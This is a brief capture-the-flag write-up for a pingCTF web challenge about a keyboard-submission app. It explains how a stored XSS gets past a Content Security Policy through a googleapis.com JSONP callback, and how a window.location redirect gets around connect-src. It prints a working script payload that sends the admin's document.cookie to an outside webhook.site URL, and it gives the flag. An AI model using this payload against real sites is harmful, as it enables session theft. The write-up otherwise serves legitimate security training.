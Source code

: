 # Solution

- Flag is stored in the keyboards table. We can query a keyboard with `/keyboard/<id>`
- We cannot view the flag keyboard without the admin cookie
- `agent.approve_keyboard()` is used in `submit_keyboard()` and `app.approve_keyboard()`
- There is an XSS in the submit description field, but CSP is blocking us.
`*.googleapis.com` is allowed in script-src so you can use one of the domains and jsonp callbacks to get JS execution
- `connect-src: self` is blocking HTTP requests when exfiltrating cookies. You can bypass this using a redirect with `window.location`
- Once you have the admin cookie, view the flag keyboard http://116.202.98.159:31790/keyboard/4

```
<script src="https://www.googleapis.com/customsearch/v1?callback=(function(){window.top.location.href=`https://webhook.site/887722a2-39e8-4ac2-869e-64489b72347d/${document.cookie}`})()"></script>
```

Flag: `pingCTF{1_0n1y_u53_4_m0u53_4nyw4y}`

Solved by: yappare